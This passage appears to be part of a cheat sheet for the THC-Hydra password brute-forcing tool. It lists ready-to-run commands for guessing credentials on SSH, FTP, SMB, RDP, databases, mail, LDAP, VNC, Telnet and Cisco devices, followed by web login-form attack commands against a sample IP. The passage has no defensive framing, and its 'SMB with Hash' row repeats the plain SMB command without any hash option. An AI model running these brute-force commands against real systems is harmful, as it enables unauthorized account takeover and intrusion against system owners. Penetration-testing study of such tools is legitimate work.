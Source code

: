| Protocol | Module Name | Default Port | Example |
|----------|-------------|--------------|---------|
| SSH | ssh | 22 | `hydra -l root -P pass.txt target ssh` |
| FTP | ftp | 21 | `hydra -l admin -P pass.txt target ftp` |
| HTTP(S) Basic Auth | http-get | 80/443 | `hydra -l admin -P pass.txt target http-get /admin/` |
| HTTP(S) Form Post | http-post-form | 80/443 | `hydra -l admin -P pass.txt target http-post-form "/login:user=^USER^&pass=^PASS^:failed"` |
| SMB/CIFS | smb | 445 | `hydra -l administrator -P pass.txt target smb` |
| RDP | rdp | 3389 | `hydra -l administrator -P pass.txt target rdp` |
| MySQL | mysql | 3306 | `hydra -l root -P pass.txt target mysql` |
| PostgreSQL | postgres | 5432 | `hydra -l postgres -P pass.txt target postgres` |
| SMTP | smtp | 25 | `hydra -l user@example.com -P pass.txt target smtp` |
| POP3 | pop3 | 110 | `hydra -l user -P pass.txt target pop3` |
| IMAP | imap | 143 | `hydra -l user -P pass.txt target imap` |
| LDAP | ldap | 389 | `hydra -l "cn=admin,dc=example,dc=com" -P pass.txt target ldap` |
| VNC | vnc | 5900 | `hydra -P pass.txt target vnc` |
| Telnet | telnet | 23 | `hydra -l root -P pass.txt target telnet` |
| Cisco | cisco | 23 | `hydra -l admin -P pass.txt target cisco` |
| Cisco-enable | cisco-enable | 23 | `hydra -l admin -P pass.txt target cisco-enable` |
| SMB with Hash | smb | 445 | `hydra -l administrator -P pass.txt target smb` |

### Advanced Protocol-Specific Options

#### Web Form Attacks

HTTP form attacks require special attention due to their complexity:

```bash
# Basic HTTP POST form attack
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# With additional parameters
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^&csrf=1234:Login failed:H=Cookie: session=1234"

# HTTP GET form
hydra -l admin -P passwords.txt 192.168.1.100 http-get-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# HTTPS form with custom port
hydra -l admin -P passwords.txt 192.168.1.100 -s 8443 https-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```
